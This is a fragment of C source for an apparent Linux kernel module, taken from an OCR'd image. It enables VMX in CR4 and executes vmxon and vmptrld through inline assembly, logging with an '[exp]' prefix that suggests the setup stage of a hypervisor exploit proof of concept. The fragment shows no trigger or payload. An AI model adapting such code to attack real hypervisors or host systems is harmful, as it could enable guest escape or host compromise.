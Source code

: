 ```c

        __asm__ __volatile__ ("vmxon %[pa]; setna %[ret]"
                : [ret]"=rm"(ret)
                : [pa]"m"(phys)
                : "cc", "memory");

        return ret;
}

static inline int vmptrld(uint64_t vmcs_pa)
{
        uint8_t ret;

        __asm__ __volatile__ ("vmptrld %[pa]; setna %[ret]"
                : [ret]"=rm"(ret)
                : [pa]"m"(vmcs_pa)
                : "cc", "memory");

        return ret;
}

static inline uint64_t rdmsr_guy(uint32_t msr)
{
    uint32_t a, d;

    __asm__ __volatile__("rdmsr" : "=a"(a), "=d"(d) : "c"(msr) : "memory");

    return a | ((uint64_t) d << 32);
}

static inline uint32_t vmcs_revision(void)
{
    return rdmsr_guy(MSR_IA32_VMX_BASIC);
}

static int __init proc_init(void)
{
    void *vmxon_page, *vmptrld_page;
    struct proc_dir_entry *new;
    unsigned long cr4;
    int res;

    cr4 = native_read_cr4();
    cr4 |= 1ul << 13;
    native_write_cr4(cr4);

    pr_info("[exp]: set cr4 to %lx", cr4);
    vmxon_page = kzalloc(0x1000, GFP_KERNEL);
    vmptrld_page = kzalloc(0x1000, GFP_KERNEL);

    vmxon_page_pa = virt_to_phys(vmxon_page);
    vmptrld_page_pa = virt_to_phys(vmptrld_page);

    *(uint32_t *)(vmxon_page) = vmcs_revision();
    *(uint32_t *)(vmptrld_page) = vmcs_revision();

    res = vmxon(vmxon_page_pa);
    pr_info("[exp]: vmxon returned %d", res);

    res = vmptrld(vmptrld_page_pa);
    pr_info("[exp]: vmptrld returned %d", res);

    pr_info("[exp]: vmxon_pa %llx", vmxon_page_pa);
```